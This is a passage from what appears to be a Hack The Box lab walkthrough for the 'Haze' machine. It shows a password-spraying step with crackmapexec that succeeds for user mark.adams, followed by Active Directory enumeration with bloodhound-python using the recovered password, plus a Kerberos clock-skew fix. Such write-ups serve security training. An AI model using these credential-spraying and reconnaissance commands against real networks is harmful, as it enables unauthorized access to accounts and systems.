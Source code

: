 **12.1** INFO: PASSWORD SPRAYING worked for USER mark.adams

**RUN:** **crackmapexec smb haze.htb -u \"usernames.txt\" -p
\"Ld@p_Auth_Sp1unk@2k24\"**

![](images/media/image18.png){width="6.3in"
height="0.42569444444444443in"}

**14.**INFO: Download JSON-files (in this case JSON-files are located in
ZIP-file)

**RUN:** **bloodhound-python -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb -dc dc01.haze.htb -ns 10.10.11.61
-c all \--zip**

![](images/media/image19.png){width="6.3in"
height="1.8430555555555554in"}

[**Error: Failed to get Kerberos TGT -\>** Fix Kerberos clock skew
issue.]{.mark}

**RUN:** **sudo** **ntpdate dc01.haze.htb**

**RUN:** **sudo timedatectl set-ntp true**

**Rerun:** **bloodhound-python -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb -dc dc01.haze.htb -ns 10.10.11.61
-c all \--zip**
